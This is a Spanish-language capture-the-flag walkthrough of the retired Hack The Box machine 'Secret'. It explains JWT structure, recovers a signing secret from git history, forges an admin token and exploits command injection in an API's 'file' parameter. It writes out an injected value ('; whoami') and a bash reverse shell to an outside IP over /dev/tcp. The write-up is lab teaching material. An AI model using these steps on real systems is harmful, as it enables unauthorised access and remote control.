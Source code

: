 
![Pasted image 20250422220257](https://github.com/user-attachments/assets/25e8ddb5-e971-4673-8c89-0afc5a8eb977)

Secret es una maquina retirada de Hack The Box que vamos a utilizar para analizar el funcionamiento de una api, modificar el jason web token de autenticación y finalmente explotar un RCE, ejecución remota de comandos, inyectando código en un parámetro.

# Que es un JASON Web Token
Antes de nada, entendamos en que consiste un Jason Web Token.
Un JSON Web Token es un formato para intercambiar información de manera segura entre dos partes. El uso que más se le da es para proporcionar un token de sesion a un usuario autenticado en un servicio.
### Cómo se estructura:
Un JWT tiene 3 partes separadas por puntos `.` de la forma:

*HEADER.PAYLOAD.SIGNATURE*

- Header: Aquí se describe como está firmado el token, el tipo de toquen y el algoritmo utilizdo, por ejemplo
```json
{
	"alg":"HS256",
	"typ":"JWT"
}
```
- Payload: En esta sección se guardan los datos del usuario. Por ejemplo, noombre de usuario, rol, y el tiempo de caducidad del token.
```JSON
{
  "name": "theadmin",
  "role": "admin",
  "iat": 1710000000,
  "exp": 1710003600
}
```

- Signature: Esta sección es una especie de firma, que nos asegura que el contenido del payload no ha sido modificado. Esto se consigue codificando tanto el Header como el Payload mediante alguna funcion hash (definida en el HEADER) y una clave secreta. De esta forma, en el caso de que alguna parte del token sea modificada, cambiará tambien la seccion signature. 
```css
HMACSHA256(
  base64UrlEncode(header) + "." + base64UrlEncode(payload),
  clave_secreta
)
```

En esta máquina, conseguiremos, debido a una mala gestión de un proyecto en git la clave secreta utilizada en la creación del JWT. De esta forma podemos crear un nuevo JWT y logearnos como el usuario administrador sin conocer la contraseña.

# Máquina Secret

## Escaneo

Lo primero de todo en esta máquina es analizar los puertos abiertos mediante la herramienta nmap:
`` sudo nmap -p- --open -sCV --min-rate 5000 -n -v -Pn -oN nmap/targeted 10.10.11.120
Esto nos reporta la siguiente información:

![Pasted image 20250421211339](https://github.com/user-attachments/assets/be195489-1cf4-402b-b21d-90376e481a5a)

Tras un analisis de los servicios http de los puertos 80 y 3000 vemos que alojan el mismo servicio.
La página se ve de la siguiente forma: 

![Pasted image 20250421211410](https://github.com/user-attachments/assets/e8262d64-9157-4144-b26d-55174f93edc6)

Desde la cual, podemos acceder a la api desde el botón de arriba a la derecha "live demo" y podemos descargar el código fuente de la api desde el boton de la parte inferior de descarga.
## Análisis del código
Analizamos el código. Dentro de la carpeta routes tenemos el archivo auth.js en el cual podemos ver:
### Registro de usuario:
El proceso de registrar un nuevo usuario:

![Pasted image 20250422212112](https://github.com/user-attachments/assets/f95f9915-4da8-4f65-a148-52ffbefcc46f)

Aquí vemos que, al realizar una petición por el método post a la url /register en el cual enviemos en el body de la petición los campos, name, email y password nos creará un usuario.
Más en detalle en el punto 1 indica el método y la url, bajo el punto 1 se ejecutan varias instrucciones que comprueban si la petición contiene el campo body y si existen mail y usuarios ya registrados. Tras esto, en el punto 2 crea un hash de la contraseña y en el punto 3 crea el nuevo usuario asignándole estos campos. Por ultimo, la api nos devuelve una respuesta con el campo user y nuestro usuario.

### Logearnos como un usuario:

![Pasted image 20250422212535](https://github.com/user-attachments/assets/6f20ea65-99c6-4ca8-b3c5-a894b9c4d2d0)

En esta sección vemos lo que pasa cuando realizamos una petición por el método post a la url /login.
Vemos que primero se ejecutan una serie de comprobaciones para ver si el mail y la contraseña son validos y en el caso de que lo sea, en el punto 2 nos crea un jwt, un jason web token creado a partid del id, name, email y el token secreto. Este token se nos envía de vuelta con el nombre auth-token.

### Area privada

Una vez logeados, podemos acceder, aportando nuestro auth-token al área privada, estos son los campos /priv y /logs

![Pasted image 20250422213056](https://github.com/user-attachments/assets/f6f648b4-cb6a-46d7-aa8e-9e0482167f3b)

En /priv, comprueba que el nombre del usuario del jwt proporcionado sea theadmin, si lo es nos devuelve un json confirmandonos que somos el usuario administrador. Si no lo es, nos dice que somos un normal user.
Esta validación de la validez del token se realiza mediante la funcion verifytoken.js:

![Pasted image 20250422213357](https://github.com/user-attachments/assets/0810fe76-e1a6-4525-afbf-f4f93d95bcb3)

Y por ultimo tenemos la sección /logs que de la misma manera que /priv si mandamos en las cabeceras un jwt válido y este pertenece a theadmin nos ejecutará el código marcado por el punto 1:

![Pasted image 20250422213509](https://github.com/user-attachments/assets/fe46fa38-71b5-4597-b6a4-2538fdafb289)

Vemos que, en el caso de ejecutarse el código, no aplica ninguna sanitización del parámetro que nosotros le estamos pasando, lo que nos permitiría ejecutar código en la máquina.
Podríamos realizar pasando el parámetro file por el metodo get, por ejemplo, "?file=/etc/passwd; whoami"

## Enumeración
En el archivo que nos hemos descargado donde hemos encontrado el código fuente de la aplicación vemos un proyecto .git. Consultando los logs de este proyecto con el comando `git log` Vemos:

![Pasted image 20250421224531](https://github.com/user-attachments/assets/7f988210-14ab-4e46-944e-d891a3774c1d)

Y al comprobar los cambios pasándole el id del commit ``git show <id>``

![Pasted image 20250421224626](https://github.com/user-attachments/assets/0b1b7f27-5fa4-446d-b1be-386f3b2dc2fc)

Vemos el token secreto que se usa para generar los JWT.

Veamos el funcionamiento de esta api registrando un usuario y logearnos obteniendo su JWT, así como accediendo a las secciones de administrador:

![Pasted image 20250421211810](https://github.com/user-attachments/assets/b088f050-7f1b-44ed-811c-d5b99edea3fc)

Una vez hecho esto, tenemos que modificar el JWT para cambiarlo por el JWT del administrador. Lo hacemos desde la web https://jwt.io

![Pasted image 20250421222308](https://github.com/user-attachments/assets/d0c07eb8-a273-47d8-a65b-1a664c174ad2)

Modificamos el campo name con el usuario theadmin e introducimos el token secreto en la parte de la firma y obtenemos el auth-token de theadmin:

![Pasted image 20250421224829](https://github.com/user-attachments/assets/1464670b-15ef-4837-9090-96d0588e1e7e)

## Explotación
Como hemos visto en la sección en la que analizabamos el codigo. Podemos pasar mediante el parametro file, un payload para ejecutar código remoto en la maquina de la forma:

![Pasted image 20250421225050](https://github.com/user-attachments/assets/28946a5b-1f35-40c6-9a83-5fdd5476e309)

Y con esto, nos podemos establecer una reverse shell mediante al comando: ``bash -c "bash -i >& /dev/tcp/10.10.16.12/443 0>&1"

![Pasted image 20250421225323](https://github.com/user-attachments/assets/8d1124c5-9de1-429c-9912-8ee846506e4d)

Ganando así acceso a la máquina.
